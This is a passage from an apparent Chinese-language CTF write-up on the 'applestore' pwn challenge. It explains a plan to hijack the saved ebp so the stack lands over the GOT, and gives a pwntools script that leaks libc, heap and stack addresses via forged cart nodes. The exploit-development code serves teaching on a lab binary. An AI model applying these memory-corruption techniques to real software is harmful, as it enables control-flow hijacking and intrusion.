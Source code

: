 所以通过delete是不能直接去修改GOT表的，两种情况下都会使得程序崩溃。而且，对于这种约束的内存写是无法直接修改间接跳转处为我们利用的函数地址，因为对于我们要利用的函数地址，其+2或者+3的处的地址一定是只读的。所以理论上没有可读可写可执行的代码段，我们没有办法直接利用这种有约束的内存写来劫持程序流。所以我们现在知道了栈内存地址，也就能计算出delete函数的返回地址，不过因为上述原因，我们往返回地址写利用的函数地址，一定也会崩溃的。那么我们还能怎么办呢？

### 劫持ebp并覆盖GOT表

之前说过，二进制漏洞利用的过程，就是一步步扩大可以控制的内存的范围。我们现在可以控制的内存或者说可以写的内存，有两部分：

1. 进入一些函数时的部分栈空间
2. 整个内存中满足上述约束的内存

那其实我们的思路就是利用满足约束条件的内存，即部分二的内存，配合相应程序逻辑，进而扩大部分一。

具体来说，部分一的内存空间是由进入函数后栈空间，而且本题可控的栈内存是根据进入函数的ebp寄存器进行寻址。而ebp寄存器会在函数leave时，恢复为栈中之前保存的old_ebp，如果我们能想办法修改old_ebp，则可能在delete函数返回到handler函数后，控制栈的基址。如果我们将栈的基址劫持到GOT表附近，则可能通过输入控制栈，即控制GOT表，最终实现控制流劫持。

#### 劫持ebp

那我们先来尝试劫持ebp到GOT表底部（因为栈是由高地址向低地址增长，ebp是栈底）。我们是通过delete函数满足约束条件的去写old_ebp，为GOT表的地址。首先想到GOT表位于可写的段，所以GOT表+2,+3的地址是data段，也是可写的，并不会崩溃，条件成立。那我们首先需要知道在delete函数返回前old_ebp的地址，泄我们露出的第27个节点的地址，在checkout函数中，距离当时的ebp的偏移为-0x20。根据本题的栈平衡，进入delete函数后，这个第27个节点的地址距离ebp的偏移仍然是-0x20，即old_ebp所在的内存位置为泄露出的栈地址+0x20。所以我们尝试将断点断在泄露完栈地址后的delete函数中，然后触发delete方法看看：

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF('applestore')
libc = ELF('../../my_ubuntu32_libc.so')
io = process(myelf.path)

add = '2';delete='3';cart='4';checkout='5'

def action(num,payload):
    io.sendlineafter('> ',num)
    io.sendlineafter('> ',payload)
for i in range(6):
    action(add,'1')
for i in range(20):
    action(add,'2')
action(checkout,'y')

payload = 'y\x00'+p32(myelf.got['puts'])+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)

io.recvuntil('27: ')
libc_addr = u32(io.recv(4))-libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4))-0x490

payload = 'y\x00'+p32(heap_addr+0x8b0)+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)
io.recvuntil('27: ')
stack_addr = u32(io.recv(4)) 
ebp = stack_addr + 0x20

log.warn('libc_addr: 0x%x' % libc_addr)
log.warn('heap_addr: 0x%x' % heap_addr)
log.warn('stack_addr: 0x%x' % stack_addr)
log.warn('ebp: 0x%x' % ebp)

gdb.attach(io,"b * 0x080489C0 \nc \np $ebp")
action(delete,"1")
io.interactive()
```
